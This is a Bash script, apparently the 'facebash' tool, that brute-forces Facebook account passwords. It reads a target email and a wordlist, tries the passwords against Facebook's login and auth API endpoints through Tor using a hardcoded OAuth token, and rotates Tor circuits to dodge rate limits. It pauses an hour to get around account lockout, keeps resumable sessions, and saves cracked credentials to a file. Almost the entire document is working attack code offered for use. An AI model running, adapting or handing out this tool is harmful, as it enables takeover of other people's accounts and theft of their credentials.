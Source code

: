  'store; exit 1;' 2
counter=0
counter2=20
start=0
end=20
turn=$((start+end))
startline=1
endline=1
sumstart=0


checkroot() {
if [[ "$(id -u)" -ne 0 ]]; then
    printf "\e[1;77mPlease, run this program as root!\n\e[0m"
    exit 1
fi
}

checktor() {

check=$(curl --socks5-hostname localhost:9050 -s https://www.google.com > /dev/null; echo $?)

if [[ "$check" -gt 0 ]]; then
printf "\e[1;91mPlease, check your TOR Connection! Just type \"tor\" or \"service tor start\"\n\e[0m"
exit 1
fi

}


dependencies() {

command -v tor > /dev/null 2>&1 || { echo >&2 "I require tor but it's not installed, run install.sh. Aborting."; exit 1; }
command -v curl > /dev/null 2>&1 || { echo >&2 "I require curl but it's not installed, run install.sh Aborting."; exit 1; }

}


banner() {

printf "\e[1;34m    _  _    _____                   _                  _      \n\e[0m"
printf "\e[1;34m  _| || |_ |  ___|                 | |                | |     \n\e[0m"
printf "\e[1;34m |_  __  _|| |_   __ _   ___   ___ | |__    __ _  ___ | |__   \n\e[0m"
printf "\e[1;34m  _| || |_ |  _| / _\` | / __| / _ \|  _ \  / _\` |/ __||  _ \  \n\e[0m"
printf "\e[1;77m |_  __  _|| |  | (_| || (__ |  __/| |_) || (_| |\__ \| | | | \n\e[0m"
printf "\e[1;77m   |_||_|  \_|   \__,_| \___| \___||_.__/  \__,_||___/|_| |_| \n\e[0m"
printf "\n"
printf "\e[1;104m     kaifutricker v1.0, Coded by: thelinuxchoice (IG/Github)     \e[0m\n"
printf "\n"
printf "\e[1;41m                       -=[ WARNING ]=-                       \e[0m\n"
printf "\n\e[1;77mPlease, keep in mind that Facebook blocks the account for 1 h\n"
printf "after 20 wrong passwords.\n\n\e[0m"

}
USER_AGENT='Firefox'

function start() {

read -p $'\e[1;92mEmail account: \e[0m' EMAIL
default_wl_pass="passwords.lst"
read -p $'\e[1;92mPassword List (Hit Enter to default list): \e[0m' wl_pass
wl_pass="${wl_pass:-${default_wl_pass}}"

}
function changeip() {

killall -HUP tor

}

function store() {

if [[ -n "$PASS" ]]; then
printf "\e[1;91m [*] Waiting a second...\n\e[0m"
sleep 3
fi
default_session="Y"
printf "\n\e[1;77mSave session for user\e[0m\e[1;92m %s \e[0m" $EMAIL
read -p $'\e[1;77m? [Y/n]: \e[0m' session
session="${session:-${default_session}}"
if [[ "$session" == "Y" || "$session" == "y" || "$session" == "yes" || "$session" == "Yes" ]]; then
if [[ ! -d sessions ]]; then
mkdir sessions
fi
cum=$(grep -n "$PASS" "$wl_pass" | cut -d ":" -f1)
printf "EMAIL=\"%s\"\nPASS=\"%s\"\nwl_pass=\"%s\"\ncum=\"%s\"\ntoken=\"%s\"\n" $EMAIL $PASS $wl_pass $token $token > sessions/store.session.$EMAIL.$(date +"%FT%H%M")
printf "\e[1;77mSession saved.\e[0m\n"
printf "\e[1;92mUse ./facebash.sh --resume\n"
else
exit 1
fi

}


function bruteforcer() {

count_pass=$(wc -l $wl_pass | cut -d " " -f1)
printf "\e[1;92mEmail account:\e[0m\e[1;77m %s\e[0m\n" $EMAIL
printf "\e[1;92mWordlist:\e[0m\e[1;77m %s (%s)\e[0m\n" $wl_pass $count_pass
printf "\e[1;91m[*] Press Ctrl + C to stop or save session\n\e[0m"
}


function method1() {

while [ $counter -lt $turn ]; do

IFS=$'\n'
for PASS in $(sed -n ''$((startline+sumstart))','$endline'p' $wl_pass); do
countpass=$(grep -n "$PASS" "$wl_pass" | cut -d ":" -f1)
token=$(($counter+1))
printf "\e[1;77mTrying pass (%s/%s)\e[0m: \"%s\"\n" $token $count_pass $PASS
sleep 1
{( trap '' SIGINT && check=$( curl --socks5 localhost:9050 -s 'https://b-api.facebook.com/method/auth.login' --user-agent "Firefox" -L -H "Authorization: OAuth 200424423651082|2a9918c6bcd75b94cefcbb5635c6ad16" -d "email=$EMAIL&password=$PASS" | grep -o "session_key\|account is temporarily unavailable" | uniq ); if [[ $check == "session_key" ]]; then printf "\e[1;92m \n  [*] Password Found: %s\n " $PASS; printf "Username: %s, Password: %s\n" $EMAIL $PASS >> found.facebash ; printf "\e[1;92m [*] Saved:\e[0m\e[1;77m found.facebash \n\e[0m";  kill -1 $$ ; elif [[ $check == "account is temporarily unavailable" ]]; then printf "\e[1;92m \n [*] Password Found or false positive: %s\n [*] Flag can be false positive\n" $PASS; printf "Username: %s, Password: %s\n" $EMAIL $PASS >> found.instashell ; printf "\e[1;92m [*] Saved:\e[0m\e[1;77m found.instashell \n\e[0m";  kill -1 $$ ;  fi ) } & done; wait $!;
let counter++
let startline++
let endline++
changeip
done

}


function method2() {

rm -rf cookies*
while [ $counter2 -lt $turn ]; do

IFS=$'\n'
for PASS in $(sed -n ''$((startline+sumstart))','$endline'p' $wl_pass); do
countpass=$(grep -n "$PASS" "$wl_pass" | cut -d ":" -f1)
token=$(($counter2+1))
COOKIES='cookies'$countpass''
#printf "method 2 \n"
printf "\e[1;77mTrying pass (%s/%s)\e[0m: %s\n" $token $count_pass $PASS

{( trap '' SIGINT && curl -s -X GET --socks5-hostname localhost:9050 'https://www.facebook.com/home.php' --user-agent $USER_AGENT --cookie $COOKIES --cookie-jar $COOKIES --location > /dev/null && curl -s -X POST --socks5-hostname localhost:9050 'https://login.facebook.com/login.php'  --user-agent $USER_AGENT --data-urlencode "email=${EMAIL}" --data-urlencode "pass=${PASS}" --cookie $COOKIES --cookie-jar $COOKIES > /dev/null && var=$( curl -s -X GET --socks5-hostname localhost:9050 'https://www.facebook.com/home.php'  --user-agent $USER_AGENT --cookie $COOKIES --cookie-jar $COOKIES | grep -o "logoutMenu\|account is temporarily unavailable" | uniq ); if [[ $var == "logoutMenu" ]]; then printf "\e[1;92m \n [*] Password Found: %s\n " $PASS; printf "Username: %s, Password: %s\n" $EMAIL $PASS >> found.facebash ; printf "\e[1;92m [*] Saved:\e[0m\e[1;77m found.instashell \n\e[0m";  kill -1 $$ ; elif [[ $check == "account is temporarily unavailable" ]]; then printf "\e[1;92m \n [*] Password Found or false positive: %s\n [*] Flag can be false positive\n" $PASS; printf "Username: %s, Password: %s\n" $EMAIL $PASS >> found.instashell ; printf "\e[1;92m [*] Saved:\e[0m\e[1;77m found.instashell \n\e[0m";  kill -1 $$ ; fi; ) } & done; wait $!;
rm -rf cookies$countpass
changeip
let startline++
let endline++
let counter2++

done
}

function resumemethod1() {
counter1=1
count_pass=$(wc -l $wl_pass | cut -d " " -f1)
while [ $counter1 -lt $turn ]; do
threads=1
IFS=$'\n'
for PASS in $(sed -n ''$token','$(($cum+1))'p' $wl_pass); do

#countpass=$(grep -n "$PASS" "$wl_pass" | cut -d ":" -f1)
#childcount=$(($counter1))
printf "\e[1;77mTrying pass (%s/%s)\e[0m: %s\n" $token $count_pass $PASS
let token++
#sleep 1
{( trap '' SIGINT && check=$( curl --socks5 localhost:9050 -s 'https://b-api.facebook.com/method/auth.login' --user-agent "Firefox" -L -H "Authorization: OAuth 200424423651082|2a9918c6bcd75b94cefcbb5635c6ad16" -d "email=$EMAIL&password=$PASS" | grep -o "session_key\|account is temporarily unavailable" | uniq ); if [[ $check == "session_key" ]]; then printf "\e[1;92m \n  [*] Password Found: %s\n " $PASS; printf "Username: %s, Password: %s\n" $EMAIL $PASS >> found.facebash ; printf "\e[1;92m [*] Saved:\e[0m\e[1;77m found.facebash \n\e[0m";  kill -1 $$ ; elif [[ $check == "account is temporarily unavailable" ]]; then printf "\e[1;92m \n [*] Password Found or false positive: %s\n [*] Flag can be false positive\n" $PASS; printf "Username: %s, Password: %s\n" $EMAIL $PASS >> found.instashell ; printf "\e[1;92m [*] Saved:\e[0m\e[1;77m found.instashell \n\e[0m";  kill -1 $$ ; fi ) } & done; wait $!;
let counter1++
let threads++
let startline++
let endline++
#let countpass++
let cum++
changeip
done

}

function resumemethod2() {
rm -rf cookies*
count_pass=$(wc -l $wl_pass | cut -d " " -f1)
counter22=20
while [ $counter22 -lt $turn ]; do

IFS=$'\n'
for PASS in $(sed -n ''$token','$(($cum+1))'p' $wl_pass); do
let countpass++

COOKIES='cookies'$countpass''
#echo "method 2: \n"
#childcount=$(($counter22))
printf "\e[1;77mTrying pass (%s/%s)\e[0m: %s\n" $token $count_pass $PASS

{( trap '' SIGINT && curl -s -X GET --socks5-hostname localhost:9050 'https://www.facebook.com/home.php' --user-agent $USER_AGENT --cookie $COOKIES --cookie-jar $COOKIES --location > /dev/null && curl -s -X POST --socks5-hostname localhost:9050 'https://login.facebook.com/login.php'  --user-agent $USER_AGENT --data-urlencode "email=${EMAIL}" --data-urlencode "pass=${PASS}" --cookie $COOKIES --cookie-jar $COOKIES > /dev/null && var=$( curl -s -X GET --socks5-hostname localhost:9050 'https://www.facebook.com/home.php'  --user-agent $USER_AGENT --cookie $COOKIES --cookie-jar $COOKIES | grep -o "logoutMenu\|account is temporarily unavailable" | uniq ); if [[ $var == "logoutMenu" ]]; then printf "\e[1;92m \n [*] Password Found: %s\n " $PASS; printf "Username: %s, Password: %s\n" $EMAIL $PASS >> found.facebash ; printf "\e[1;92m [*] Saved:\e[0m\e[1;77m found.instashell \n\e[0m";  kill -1 $$ ; elif [[ $check == "account is temporarily unavailable" ]]; then printf "\e[1;92m \n [*] Password Found or false positive: %s\n [*] Flag can be false positive\n" $PASS; printf "Username: %s, Password: %s\n" $EMAIL $PASS >> found.instashell ; printf "\e[1;92m [*] Saved:\e[0m\e[1;77m found.instashell \n\e[0m";  kill -1 $$ ; fi; ) } & done; wait $!;
rm -rf cookies$countpass
changeip

let startline++
let endline++
let counter22++
let token++
let cum++
done
}

function resume() {

banner
#checkroot 
checktor
counter=1
if [[ ! -d sessions ]]; then
printf "\e[1;91m[*] No sessions\n\e[0m"
exit 1
fi
printf "\e[1;92mFiles sessions:\n\e[0m"
for list in $(ls sessions/store.session*); do
IFS=$'\n'
source $list
printf "\e[1;92m%s \e[0m\e[1;77m: %s (\e[0m\e[1;92mwl:\e[0m\e[1;77m %s\e[0m\e[1;92m,\e[0m\e[1;92m lastpass:\e[0m\e[1;77m %s )\n\e[0m" "$counter" "$list" "$wl_pass" "$PASS"
let counter++
done
read -p $'\e[1;92mChoose a session number: \e[0m' fileresume
source $(ls sessions/store.session* | sed ''$fileresume'q;d')

printf "\e[1;92m[*] Resuming session for user:\e[0m \e[1;77m%s\e[0m\n" $user
printf "\e[1;92m[*] Wordlist: \e[0m \e[1;77m%s\e[0m\n" $wl_pass
printf "\e[1;91m[*] Press Ctrl + C to stop or save session\n\e[0m"

while [ true ]; do

resumemethod1
#let turn+=20
#method2
hourdate=$(date +%H)
dat=$(($hourdate + 1))
mindate=$(date +%M:%S)
printf "\e[1;91m[*] Waiting 1 hour, to return at:\e[0m\e[1;93m %s:%s\n\e[0m" $dat $mindate
let turn+=20
sleep 3600
resumemethod2
hourdate2=$(date +%H)
dat2=$(($hourdate2 + 1))
mindate2=$(date +%M:%S)
printf "\e[1;91m[*] Waiting 1 hour, to return at:\e[0m\e[1;93m %s:%s\n\e[0m" $dat2 $mindate2
let turn+=20
sleep 3600
done

}

case "$1" in --resume) resume ;; *)

banner
#checkroot
dependencies
checktor
start
bruteforcer
while [ true ]; do

method1
#let turn+=20
#method2
hourdate=$(date +%H)
dat=$(($hourdate + 1))
mindate=$(date +%M:%S)
printf "\e[1;91m[*] Waiting 1 hour, to return at:\e[0m\e[1;93m %s:%s\n\e[0m" $dat $mindate
let turn+=20
sleep 3600
method2
hourdate2=$(date +%H)
dat2=$(($hourdate2 + 1))
mindate2=$(date +%M:%S)
printf "\e[1;91m[*] Waiting 1 hour, to return at:\e[0m\e[1;93m %s:%s\n\e[0m" $dat2 $mindate2
let turn+=20
sleep 3600
done

esac

